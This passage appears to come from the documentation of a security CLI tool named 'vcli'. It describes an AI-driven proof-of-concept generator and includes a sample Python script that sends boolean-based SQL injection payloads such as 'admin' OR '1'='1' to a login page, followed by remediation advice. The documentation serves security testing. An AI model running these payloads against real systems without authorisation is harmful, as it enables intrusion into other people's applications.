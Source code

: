 ```python
                    "command": rule["command"],
                    "reasoning": "Based on discovered services"
                })

        # Store in DB
        for s in suggestions:
            workspace.add_suggestion(
                suggestion_text=s["text"],
                reasoning=s["reasoning"]
            )

        return suggestions
```

---

### 4. PoC Generator

**Purpose**: Generate safe, ethical proof-of-concept exploit code for common vulnerabilities.

**Supported Vuln Types**:
- SQL Injection (SQLi)
- Cross-Site Scripting (XSS)
- Command Injection
- Path Traversal
- SSRF (Server-Side Request Forgery)

**Example**:
```bash
$ vcli ai generate-poc --vuln sqli --target "http://example.com/login.php?user=admin"

✅ PoC Generated:

# SQL Injection PoC for http://example.com/login.php
# CVE: None (Generic SQLi)
# Description: Tests for boolean-based blind SQL injection

import requests

url = "http://example.com/login.php"

# Test 1: Boolean-based injection
payloads = [
    "admin' OR '1'='1",
    "admin' OR '1'='1'--",
    "admin' OR '1'='1'#"
]

for payload in payloads:
    response = requests.get(url, params={"user": payload})
    if "Welcome" in response.text:
        print(f"✅ VULNERABLE: Payload '{payload}' successful")
        break
else:
    print("❌ Not vulnerable to tested payloads")

# Remediation:
# - Use parameterized queries (prepared statements)
# - Input validation and sanitization
```
